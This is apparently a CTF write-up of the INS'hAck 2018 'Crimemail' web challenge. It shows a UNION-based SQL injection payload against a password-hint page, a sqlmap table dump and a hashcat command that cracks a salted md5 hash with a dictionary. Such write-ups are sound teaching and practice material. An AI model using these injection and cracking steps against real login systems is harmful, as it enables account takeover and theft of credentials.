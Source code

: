 ```yaml
---
title: INShAck 2018 - Crimemail
author: Crisis
categories:
  - websec
---
```

This is the first of the two web challenges of the INS'hAck CTF that I managed to flag this weekend. Here is its
descriptions:

```
Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.
Let's see if you can hack your way in his account...
Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary
```

As you can see just reading the description already gave us some valuable informations.
The website consisted of a simple login form to access the emails and of a "lost password" page which could give us a hint about a user's password if we provided its username:
![website](/medias/inshack18/hintpage.png)

Here we could easily guess a valid username using the challenge's description. From the name `Collins Hackle` we could try a few obvious usernames, and the right one was `c.hackle`. Using it returned an original response, but the hint was useless:

```php
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
}
```

Since that page seemed to return a lot of informations without filtering it, the next logical step was to try a SQL Injection. A simple quote returned an error:

```sql
Database error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```

After a few tries, I managed to get all the usernames with a standard injection:

```sql
bla' UNION SELECT username FROM users -- -
```

Which returned:

```sql
array(5) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(9) "p.escobar"
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(7) "g.dupuy"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(8) "a.capone"
  }
  [3]=>
  array(1) {
    ["hint"]=>
    string(8) "c.manson"
  }
  [4]=>
  array(1) {
    ["hint"]=>
    string(8) "c.hackle"
  }
}
```
As always, at that point I decided to launch [SQLMap](http://sqlmap.org/). The `--dump` flag allowed me to dump the table:
![sqlmap](/medias/inshack18/sqlmap.png)

Now it was just a matter of cracking that md5 hash. As we can see we could get the salt from the database, and we knew from the challenge's description that the salt is used after the password:
`md5($password + $salt)`.
I used [hashcat](https://hashcat.net/hashcat/) to crack it, with the help of the classic rockyou dictionnary:
```
./hashcat -a 0 -m 10 f2b31b3a7a7c41093321d0c98c37f5ad:yhbG rockyou.txt
```
The `-a 0` flag means that we're doing a "straight" attack using a dictionnary, and the `-m 10` flag tells hashcat that it's a md5 hash and that the salt is after the password : `10 | md5($pass.$salt)`. Using that command I almost instantly got the password : `f2b31b3a7a7c41093321d0c98c37f5ad:yhbG:pizza`

Then you could just log in, and get the flag:
![flag](/medias/inshack18/flag.png)